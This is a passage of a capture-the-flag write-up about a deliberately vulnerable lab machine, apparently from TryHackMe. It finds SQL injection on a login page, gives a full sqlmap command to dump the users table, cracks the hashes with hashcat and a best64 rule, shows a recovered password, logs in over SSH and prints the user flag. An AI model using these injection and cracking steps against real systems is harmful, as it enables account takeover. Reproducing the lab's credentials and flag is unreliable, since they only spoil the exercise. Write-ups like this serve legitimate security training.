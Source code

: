 Nothing important, we are missing something, for example, we only tested for brute force in the login page but nothing else, what about `SQLI`:

![](../images/Pasted%20image%2020250404173656.png)

![](../images/Pasted%20image%2020250404173707.png)

There we go, `SQLI` is possible in this website, let's proceed to exploitation.




# EXPLOITATION
---


Since we already know we got `SQLI`, we can use `sqlmap` to speed up the process:


```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=Harry&password=pass' -p user --skip passwrd --level 5 --risk 3 --dbms SQLite --dump -T users -C name,password,admin,notes --flush-session --threads 10 --no-cast --tamper unionalltounion --union-char 1337
```

From this, we can get a series of hashes, once we save all those hashes, we can proceed to crack them. There's a hint on how to crack them, it says:

```
My linux username is my first name, and password uses best64
```

So, by doing this, we can crack it using hashcat:

```
hashcat --force -m 1700 hashes2.txt spellnames.txt -r /usr/share/doc/hashcat/rules/best64.rule
```

We get the following:

```
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

There we go, we got the credentials, since the username is the first name of him, we got some username on the sqlmap scan:

```
harry:wingardiumleviosa123
```


We can now go into ssh using those credentials:

![](../images/Pasted%20image%2020250404182627.png)

```
harry@hogwartz-castle:~$ cat user1.txt
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```
